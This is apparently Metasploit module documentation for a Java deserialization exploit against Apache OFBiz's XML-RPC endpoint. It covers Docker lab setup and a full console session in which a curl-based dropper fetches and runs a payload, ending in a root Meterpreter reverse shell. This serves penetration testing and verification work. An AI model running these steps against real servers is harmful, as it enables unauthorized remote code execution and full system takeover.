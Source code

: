 ## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated XML-RPC endpoint `/webtools/control/xmlrpc` for
versions prior to 17.12.04.

### Setup

#### 15.12

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

#### 18.12.09

`docker run -p 8080:8080 -p 8443:8443 --rm -e INIT_DB=2 vulhub/ofbiz:18.12.09`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8888
srvport => 8888
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started HTTPS reverse handler on https://192.168.1.7:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_https
[*] Using URL: http://0.0.0.0:8888/AGB4cD
[*] Local IP: http://10.3.227.250:8888/AGB4cD
[*] Generated command stager: ["curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv"]
[*] Executing command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] Client 192.168.1.7 (curl/7.38.0) requested /AGB4cD
[*] Sending payload to 192.168.1.7 (curl/7.38.0)
[+] Successfully executed command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Redirecting stageless connection from /1fY1FTBqS3Z81nrUI-E3VQ3E-Kqn5Kx4lP2cAzF4bmUgveaMUNylCEh1ohulKhz1fERPwYd8u4DAauCLZ8UDm5JaB7P with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Attaching orphaned/stageless session...
[*] Command Stager progress - 104.14% done (151/145 bytes)
[*] Meterpreter session 1 opened (192.168.1.7:8443 -> 192.168.1.7:61375) at 2020-08-14 21:42:11 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ 09d1564c6b2c (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
